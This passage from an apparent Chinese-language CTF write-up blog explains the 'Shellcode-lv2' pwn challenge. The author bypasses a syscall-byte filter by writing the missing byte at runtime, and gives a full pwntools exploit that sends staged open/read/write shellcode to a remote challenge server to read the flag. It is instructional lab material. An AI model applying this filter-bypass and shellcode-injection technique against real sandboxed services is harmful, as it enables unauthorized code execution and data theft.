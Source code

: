 经过gdb调试，发现最后rsp在0x404800(我也不清楚为什么）,所以payload3需要填充3个ret ,所以多次栈迁移真的十分依赖gdb的调试。

#### [Week 3] Shellcode-lv2

从这题看出来我的shellcode编写能力实在差劲。。。

题目逻辑如下，输入的内容中不能包含\xf\x5也就是指令syscall。

首先先考虑这题如何做，看到题目开了沙箱，只能使用ORW，但是10字节肯定不够执行ORW，所以要先构造一次read读入shellcode，shellcode就存在之后的buf里继续执行

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-39.png" alt="img" style="zoom:67%;" />

但是syscall被禁了，如何绕过呢？于是有以下方法：

1.构造一个0xf05(通过运算得出），并将其储存在寄存器中，最后call 这个寄存器。

2.利用mov byte ptr [addr],5将5写入buf之后的内存

3.使用int 0x80

由于第一次读入的数据太少了只有0x10，所以考虑用方法二，所以我们需要构造一个15字节长的shellcode，然后再单独把\x0f传进去，最后mov byte ptr [addr],5会将\x05也写进去达到攻击目的。

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-38-1024x645.png" alt="img" style="zoom:67%;" />

于是我们可以给出exploit：

```
from pwn import *
#io = process('./pwn1')
io = remote('47.97.58.52',43010)
elf = ELF('./pwn1')
context(os = 'linux',arch = 'amd64')
read_shell = """
xor rdi, rdi
mov rsi,0x20240011
nop
mov byte ptr[rdx+16],5
"""
#gdb--rax=0,rdx=0x20240000
print(len(asm(read_shell)))
payload = asm(read_shell) + b'\x0f'
#gdb.attach(io)
#pause()
io.sendafter(b'Show me what you want to run: ',payload)
addr = 0x20240500
payload1 = shellcraft.amd64.open("./flag")
payload1 += shellcraft.amd64.read(3,addr,0x30)
payload1 += shellcraft.amd64.write(1,addr,0x30)
io.send(asm(payload1))
io.interactive()               
```

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-37-1024x497.png" alt="img" style="zoom: 50%;" />

#### [Week 3] fmt2orw
